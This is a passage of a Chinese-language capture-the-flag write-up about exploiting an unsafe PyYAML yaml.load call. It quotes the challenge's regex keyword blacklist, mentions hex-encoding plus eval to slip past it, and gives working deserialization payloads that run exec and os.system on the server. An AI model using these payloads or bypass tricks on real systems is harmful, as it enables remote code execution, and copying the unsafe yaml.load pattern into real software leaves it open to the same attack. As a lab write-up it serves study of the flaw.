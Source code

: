 最新版本是 6.0, 感觉不太对

搜了一下发现存在反序列化漏洞

[https://xz.aliyun.com/t/7923](https://xz.aliyun.com/t/7923)

[https://www.freebuf.com/vuls/256243.html](https://www.freebuf.com/vuls/256243.html)

[https://www.tr0y.wang/2022/06/06/SecMap-unserialize-pyyaml/](https://www.tr0y.wang/2022/06/06/SecMap-unserialize-pyyaml/)

5.3 已经高于 5.1 版本了, 很多 payload 都不能用

在第二篇文章里找到了一个本地测试能用的 payload

```python
- !!python/object/new:str
    args: []
    state: !!python/tuple
    - "print('test')"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
```

上传后显示 Forbidden, 原因如下

```python
if not re.search(r"apply|process|out|system|exec|tuple|flag|\(|\)|\{|\}", yamlDatas, re.M|re.I):
    rarDatas = yaml.load(yamlDatas.strip().strip(b'\x00'.decode()))
    if rarDatas:
        return render_template('result.html', filename=filename, path=filename.split('.')[0], files=rarDatas['files'])
    else:
        return response('Internal Server Error.', 500)
else:
    return response('Forbidden.', 403)
```

process system exec 过滤了还好说, 可以通过十六进制编码 + eval 绕过, 但是还过滤了 tuple

尝试把 tuple 换成 dict list, 执行失败

之前没接触过 yaml 反序列化的漏洞, 底层原理也云里雾里的

折腾了好久才发现之前一直放着没读完的第三篇文章里提了一下 tuple

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208261714950.png)

大概意思就是 frozenset bytes 这些类型也能够造成反序列化

复制了一下原文章里的 payload 然后修改一下 tuple 类型

```yaml
!!python/object/new:frozenset
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('ls / > /tmp/ls.txt')"]
```
